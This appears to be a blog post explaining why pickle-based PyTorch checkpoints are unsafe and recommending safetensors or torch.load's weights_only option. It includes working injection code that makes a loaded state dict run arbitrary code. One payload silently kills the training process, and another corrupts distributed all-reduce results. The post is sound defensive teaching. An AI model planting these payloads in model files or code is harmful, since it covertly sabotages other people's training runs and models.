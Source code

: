 ```yaml
---
title: "Why do we need Hugging Face's SafeTensor?"
description: "Malicious code can be injected in your model weights and safetensors is all you need."
date: "2024-10-19"
ogImage:
  url: "https://franklee.xyz/public_assets/blog_media/2024-10-19-safetensor/cover.png"
tags: ["deep learning", "security"]
---
```


A long time ago, a very simple question came to my mind when I was reading a bunch of Hugging Face's documentation - what does Hugging Face's Safetensor do? The term "Safetensor" appears in many places in the Hugging Face's documentation but people rarely talk about it and discuss its purpose. Recently, there was a security affair which affected a team's model training progress and this prompts me to revisit this question and write this blog. It should be noted that this blog is not a discussion of the affair but rather the technical advocation for the use of safetensors to protect your models, which are the most important assets in the AI era.

## What's wrong with the current model storage?

When we train a model, we often save the model weights to a file for checkpointing and later loading. The most popular format for this is the PyTorch state dictionary, which is a Python dictionary object mapping each layer to its parameter tensor. I guess most of you are familiar with the following code snippet:

```python
# save model weights
state_dict = model.state_dict()
torch.save(state_dict, "model.pt")

# load model weights
state_dict = torch.load("model.pt")
model.load_state_dict(state_dict)
```

However, this method uses `pickle` to serialize and deserialize the entire state dict object, raising concerns over its security. The reason is that `pickle` is not secure against erroneous or maliciously constructed data. It may load arbitrary code with the same privileges as the program that is deserializing the data. In this way, the attacker can inject arbitrary code into the model weights and cause serious security issues. One way to hack the models weights is to modify its `__reduce__` method to execute arbitrary code.

```python
class Obj:

    def __reduce__(self):
        return (exec, ("print('hello')",))
```

If you serialize this object and save it to a file, the code will be executed when you load the object. That is, you will see a "hello" statement printed when you load the object.

With this in mind, we can basically manipulate many parts of the program, including imported libraries and local variables. I have provided two typical senarios where your training process can be interrupted and the arithmetic correctness of the model weights can be tampered with. You can also find the example code in my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor).

### Scenario 1: Automatically shut down the training process

As we can see in the "hello" example above, the malicious code is written as a code string. Similarly, we can prepare the following code string to create a new thread, which kills the parent process after 5 seconds. This thread works at the background so the user won't notice anything and `os.kill` does not return any error trace, which makes it hard to detect the malicious code.

```python
AUTO_SHUTDOWN = """
import os
import threading
from functools import partial

# get the process ID
pid = os.getpid()

def inject_code(pid: int):
    import time
    import os
    time.sleep(5)
    os.kill(pid, 9)

wrapped_fn = partial(inject_code, pid)
injection_thread = threading.Thread(target=wrapped_fn)
injection_thread.start()
"""
```

Next, we need to inject this code into the state dict object. As a result, when we load the model weights from disk, the code will be executed and the training process will be interrupted.

```python
def inject_malicious_code(obj, code_str):
    # bind a reduce fn to weights
    def reduce(self):
        return (exec, (code_str, ))

    # bind the reduce fn to the weights's __reduce__ method
    bound_reduce = reduce.__get__(obj, obj.__class__)
    setattr(obj, "__reduce__", bound_reduce)
    return obj

state_dict = inject_malicious_code(state_dict, AUTO_SHUTDOWN)
```

### Scenario 2: Introduce errors in collective communication

Similarly, if we want to modify the behaviour of the collective communication operations, we can introduce errors in its computation so that the gradients will never be correct in distributed training. We can prepare the following code string to hijack the `all_reduce` function. This code string monkey patches the `all_reduce` API in the `torch.distributed` module and adds 1 to the tensor in place. As a result, the all-reduce results will be larger than the expected results.

```python
HIJACK_ALL_REDUCE = """
import torch.distributed as dist

dist._origin_all_reduce = dist.all_reduce
def hijacked_all_reduce(tensor, *args, **kwargs):
    import torch.distributed as dist
    tensor = tensor.add_(1)
    return dist._origin_all_reduce(tensor, *args, **kwargs)

setattr(dist, "all_reduce", hijacked_all_reduce)
"""
```

For example, if you have 2 processes and each process is holidng a tensor `[0, 1, 2, 3]`, the all-reduce operation will sum up the tensors from each process and the result will be `[0, 2, 4, 6]`. However, if the attacker injects the malicious code, the result will be `[2, 4, 6, 8]`.

## How do Safetensors solve the problem?

In the first place, Safetensors do not use `pickle` to serialize and deserialize the state dict object. Instead, it uses a custom serialization method to store the model weights. In this way, the attacker cannot inject arbitrary code into the model weights. Amazingly, Safetensors are still fast as does zero-copy when storing and saving model weights. In simple words, Hugging Face's Safetensors ensure that your model weights files only contain the parameter data and nothing else.

We have also provided some examples of using safetensors to remove the security concerns in the my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor). For every example which demonstrates the malicious scenario, you just simply add the `--use-safetensor` flag to the command to see the difference.

Moreover, if you still want to stick to `torch.load`, you can specify the argument `weights_only` so that PyTorch will restricts the unpickler to only unpickle the metadata and tensors.

## References

- https://www.reddit.com/r/learnpython/comments/ewrcuc/how_do_you_run_code_while_unpickling/
- https://huggingface.co/docs/safetensors/en/index

